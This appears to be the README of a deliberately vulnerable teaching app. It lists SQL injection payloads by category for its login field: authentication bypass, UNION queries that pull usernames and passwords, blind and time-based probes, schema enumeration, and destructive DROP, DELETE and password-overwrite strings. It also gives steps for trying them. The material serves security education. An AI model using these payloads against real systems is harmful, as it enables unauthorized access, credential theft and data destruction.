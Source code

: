 # SQL Injection Examples for Testing

This application is designed to demonstrate SQL injection vulnerabilities for educational purposes.

## Common SQL Injection Payloads to Test:

### 1. Authentication Bypass
```
' OR '1'='1
' OR 1=1--
admin' OR '1'='1
```

### 2. Comment Injection
```
admin'--
admin' --
user'/*
```

### 3. UNION-based Injection
```
' UNION SELECT username, password FROM users--
' UNION SELECT 1,2,3--
```

### 4. Boolean-based Blind Injection
```
' AND '1'='1
' AND '1'='2
admin' AND '1'='1'--
```

### 5. Time-based Blind Injection
```
'; WAITFOR DELAY '00:00:05'--
' OR SLEEP(5)--
```

### 6. Destructive Commands (Will show error)
```
'; DROP TABLE users;--
'; DELETE FROM users;--
'; UPDATE users SET password='hacked';--
```

### 7. Information Schema Queries
```
' UNION SELECT table_name FROM information_schema.tables--
' UNION SELECT column_name FROM information_schema.columns--
```

## How to Use:
1. Enter any of the above payloads in the BroncoName field
2. Click "Log In"
3. Observe how the vulnerable SQL query is constructed
4. See the results of the injection attempt
5. Learn about the specific type of injection detected

## Educational Purpose:
This demonstrates why input validation and parameterized queries are essential for web application security.

**Never use these techniques on systems you don't own or without explicit permission!**